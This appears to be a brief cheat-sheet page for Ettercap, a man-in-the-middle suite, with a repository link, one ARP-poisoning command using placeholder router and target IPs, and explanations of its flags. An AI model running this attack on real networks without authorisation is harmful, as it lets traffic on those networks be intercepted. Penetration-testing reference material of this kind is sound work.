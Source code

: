 ```yaml
---
title: ETTERCAP
summary: A comprehensive suite for man in the middle attacks.
description: A comprehensive suite for man in the middle attacks.
---
```


**[https://github.com/Ettercap/ettercap](https://github.com/Ettercap/ettercap)**

## Basis


 > 
 > **<font color=red>ettercap -T -S -i</font> wlan0 <font color=red>-M arp:remote /</font>\[ROUTER_IP\]<font color=red>// /</font>\[TARGET_IP\]<font color=red>//</font>**

## Flags


 > 
 > **<font color=red>-T</font>**</br>
 > Text Only (no GUI). 
 > 
 > **<font color=red>-S</font>**</br>
 > Do no use SSL.
 > 
 > **<font color=red>-i </font>wlan0**</br>
 > Specify interface.
 > 
 > **<font color=red>-M </font>**</br>
 > Man In The Middle Attack.
 > 
 > **<font color=red>arp:remote</font>**</br>
 > Attack Method.
